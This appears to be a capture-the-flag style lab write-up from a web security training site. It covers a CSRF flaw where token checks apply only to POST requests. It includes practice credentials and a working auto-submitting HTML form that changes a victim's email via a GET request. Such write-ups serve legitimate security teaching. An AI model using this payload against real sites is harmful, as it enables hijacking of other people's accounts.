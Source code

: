 # CSRF where token validation depends on request method
# Objective
This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.\
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
Even though the website have `csrf` token it might not handle correctly different types of requests.
|![](Images/image-2.png)|
|:--:| 
| *Test of change email functionality - CSRF token is preset* |


## CSRF Exploit
In order to solve the lab the following steps must be completed:
- Craft correct payload (below) - user `GET` method in request
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

For some reason attacker and user wiener have to have different emails addresses.

```
<form method="GET" action="https://0a9a00070388d30d8685977d000f0006.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
</form>

<script>
        document.forms[0].submit();
</script>
```

![](Images/image-3.png)
